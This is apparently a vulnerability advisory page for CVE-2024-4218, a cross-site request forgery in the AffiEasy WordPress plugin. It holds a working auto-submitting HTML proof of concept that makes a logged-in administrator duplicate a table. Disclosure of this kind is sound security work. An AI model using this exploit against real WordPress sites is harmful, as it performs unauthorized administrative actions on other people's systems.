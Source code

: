 ```yaml
---
layout: page
title: CVE-2024-4218
subtitle: AffiEasy <= 1.1.7 - Cross-Site Request Forgery to Various Actions
---
```

## Description
The AffiEasy plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.1.7. This is due to plugin improperly releasing the tagged and patched version of the plugin - the vulnerable version is used as the core files, while the patched version was included in a 'trunk' folder. This makes it possible for unauthenticated attackers to perform a variety of actions via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 6.5 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:N)

## Affected Version
    <= 1.1.7

## PoC :
```
<html>
  <!-- Made by eneriiiii<3 / https://x.com/aaillesim -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php">
      <input type="hidden" name="page" value="affieasy&#45;table" />
      <input type="hidden" name="action" value="duplicate&#45;table" />
      <input type="hidden" name="id" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://plugins.trac.wordpress.org/browser/affieasy/tags/1.1.6
- https://www.cve.org/CVERecord?id=CVE-2024-4218
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/affieasy/affieasy-117-cross-site-request-forgery-to-various-actions






